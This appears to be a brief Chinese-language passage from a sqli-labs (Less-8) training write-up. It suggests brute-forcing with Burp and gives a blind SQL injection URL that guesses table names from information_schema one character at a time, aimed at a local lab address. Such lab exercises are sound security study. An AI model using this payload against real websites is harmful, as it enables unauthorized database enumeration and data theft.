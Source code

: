 使用bp快速爆破

![](file/image_dcQDKACA3R.png)

```sql
//爆表
 http://192.168.65.128/sqli-labs/Less-8/?id=1' 
 and substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e' --+
```
